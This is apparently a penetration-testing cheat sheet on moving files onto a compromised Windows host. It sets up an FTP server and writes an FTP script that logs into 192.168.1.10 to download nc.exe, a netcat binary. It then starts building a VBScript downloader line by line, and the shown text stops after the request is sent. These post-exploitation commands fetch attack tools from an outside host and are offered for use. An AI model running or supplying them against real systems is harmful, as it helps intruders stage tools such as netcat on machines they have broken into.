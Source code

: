 Windows File transfer

```bash
sudo apt update && sudo apt install pure-ftpd
```

### FTP configurations.

```bash
#!/bin/bash
if [[ $(/usr/bin/id -u) -ne 0 ]]; then
    echo "Not running as root"
    exit
fi
sudo apt update && sudo apt install pure-ftpd
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd limbo -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

### FTPd file commands

```bash
echo open 192.168.1.10>> ftp.txt
echo USER hacktor>> ftp.txt
echo hacktor>> ftp.txt
echo bin>> ftp.txt
echo GET nc.exe>> ftp.txt
echo bye>> ftp.txt
```

\#How to run it

```bash
ftp -v -n -s:ftp.txt
```

\#Fixing time out problem\
Code:

```bash
echo "40110 40210" | sudo tee /etc/pure-ftpd/conf/PassivePortRange
sudo service pure-ftpd restart
```

### VBScript to download files

```visual-basic
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
```